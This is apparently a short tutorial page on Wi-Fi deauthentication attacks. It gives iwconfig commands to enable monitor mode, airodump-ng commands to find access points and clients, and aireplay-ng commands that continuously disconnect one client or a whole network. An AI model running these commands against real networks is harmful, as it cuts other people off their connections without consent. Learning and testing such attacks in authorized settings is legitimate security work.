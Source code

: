 ```yaml
---
description: >-
  A Wi-Fi deauthentication attack is a type of denial-of-service attack that
  targets communication between a user and a Wi-Fi wireless access point.
---
```


# Deauth

{% hint style="warning" %}
You will need a wifi adapter that allows monitor mode
{% endhint %}

&#x20;_ **Monitor mode** allows a computer with a wireless network interface controller (WNIC) to monitor all traffic received on a wireless channel. Unlike promiscuous mode, which is also used for packet sniffing, monitor mode allows packets to be captured without having to associate with an access point or ad hoc network first. Monitor mode only applies to wireless networks, while promiscuous mode can be used on both wired and wireless networks._

## Monitor mode

{% hint style="warning" %}
run _<mark style="color:blue;">`ifconfig`</mark>_ to check the name of your network adapter, in my case it is wlan0
{% endhint %}

{% code lineNumbers="true" %}
```
# turn down the network adapter
iwconfig wlan0 down

# Changing into monitor mode
iwconfig wlan0 mode monitor

# turn up the network adapter
iwconfig wlan0 up

## run iwconfig to check if monitor mode is successfully enabled 
```
{% endcode %}

## Packet Capture

{% code lineNumbers="true" %}
```
# for all network 
airodump-ng wlan0 

# for a specified network
airodump-ng wlan0 --bssid [MAC]

```
{% endcode %}

{% hint style="info" %}
BSSID - MAC Address of an Access Point

Station - MAC Address of a Client&#x20;
{% endhint %}

## Deauth

{% code lineNumbers="true" %}
```
# on single client
aireplay-ng --deauth 0 -a [bssid] -c [station] wlan0

# on whole network
aireplay-ng --deauth 0 -a [bssid] wlan0
```
{% endcode %}

